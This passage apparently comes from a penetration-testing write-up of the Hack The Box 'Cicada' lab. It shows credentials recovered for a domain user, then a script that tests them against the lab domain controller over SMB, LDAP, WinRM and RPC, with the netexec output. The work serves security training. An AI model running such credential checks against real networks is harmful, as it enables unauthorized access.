 Creds obtained:

```bash
david.orelious
aRt$Lp#7t*VQ!3
```

Lets see where this user can login:

## Checking where we can login with `michael.wrightson` creds

```bash
./auto_netexec_bulk_creds_checker.sh cicada.htb 'david.orelious' 'aRt$Lp#7t*VQ!3'
```

```bash
[*] Checking if winrm port 5985 is open on cicada.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM       10.129.180.83   5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.129.180.83   5985   CICADA-DC        [-] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3

[*] Checking if smb port 445 is open on cicada.htb...
[+] Port 445 open — checking smb with netexec
SMB         10.129.180.83   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.180.83   445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 

[*] Checking if ldap port 389 is open on cicada.htb...
[+] Port 389 open — checking ldap with netexec
SMB         10.129.180.83   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
LDAP        10.129.180.83   389    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 

[*] Checking if rdp port 3389 is open on cicada.htb...
[-] Skipping rdp — port 3389 is closed

[*] Checking if wmi port 135 is open on cicada.htb...
[+] Port 135 open — checking wmi with netexec
RPC         10.129.180.83   135    CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
RPC         10.129.180.83   135    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 

[*] Checking if nfs port 2049 is open on cicada.htb...
[-] Skipping nfs — port 2049 is closed

[*] Checking if ssh port 22 is open on cicada.htb...
[-] Skipping ssh — port 22 is closed

[*] Checking if vnc port 5900 is open on cicada.htb...
[-] Skipping vnc — port 5900 is closed

[*] Checking if ftp port 21 is open on cicada.htb...
[-] Skipping ftp — port 21 is closed

[*] Checking if mssql port 1433 is open on cicada.htb...
[-] Skipping mssql — port 1433 is closed
```
